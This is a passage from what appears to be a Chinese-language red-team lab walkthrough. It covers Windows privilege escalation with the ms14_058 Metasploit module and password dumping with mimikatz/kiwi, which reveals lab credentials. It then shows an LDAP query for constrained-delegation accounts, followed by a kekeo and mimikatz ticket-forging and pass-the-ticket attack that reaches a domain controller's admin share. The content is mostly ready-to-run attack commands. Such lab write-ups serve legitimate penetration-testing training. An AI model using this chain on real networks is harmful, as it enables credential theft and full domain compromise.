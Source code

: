 ![](http://qn.laohuan.xin/2021-11-27_04-21sql%E4%B8%8A%E7%BA%BF.png)

6.使用ms14_058提升权限

`exploit/windows/local/ms14_058_track_popup_menu`

![](http://qn.laohuan.xin/2021-11-27_06-34%E6%8F%90%E6%9D%83.png)

成功提升至系统权限

7.抓取密码 **sqlserver:Server12345**

`load kiwi`

`creds_wdigest`

![](http://qn.laohuan.xin/2021-12-09_06-10.png)

### 0x4 域控

#### 1. 约束委派

1.查询设置了约束委派的用户(需域内任意账户密码,前期已获取win7账户密码)

```bash
proxychains3 ldapsearch  -LLL -x -H ldap://10.10.10.8:389 -D "saul@redteam.red" -w 'admin!@#45'  -b dc=redteam,dc=red "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" | grep -iE "distinguishedName
```

![](http://qn.laohuan.xin/2021-12-10_06-15ldap.png)

sqlserver用户配置了约束委派，且密码也已获取，可尝试约束委派攻击

2.使用kekeo请求TGT

工具地址：[kekeo](http://github.com/gentilkiwi/kekeo/)

`tgt::ask /user:sqlserver /domain:redteam.red /password:Server12345 /ticket:sqlserver.kirbi`

![](http://qn.laohuan.xin/2021-12-10_06-48-%E7%94%B3%E8%AF%B7TGT.png)

3.使用申请的TGT伪造administrator的ticket

`tgs::s4u /tgt:TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi /user:Administrator@redteam.red /service:cifs/owa.redteam.red`

![](http://qn.laohuan.xin/2021-12-10_06-55-%E8%AE%BF%E9%97%AE%E5%9F%9F%E6%8E%A7ST.png)

4.使用mimikatz导入伪造的票据

先清空内存中的票据 `KLIST PURGE`

`kerberos::ptt TGS_Administrator@redteam.red@REDTEAM.RED_cifs~owa.redteam.red@REDTEAM.RED.kirbi`

成功访问域控 `dir \\owa\c$`

![](http://qn.laohuan.xin/2021-12-10_07-04-%E5%AF%BC%E5%85%A5ST2.png)
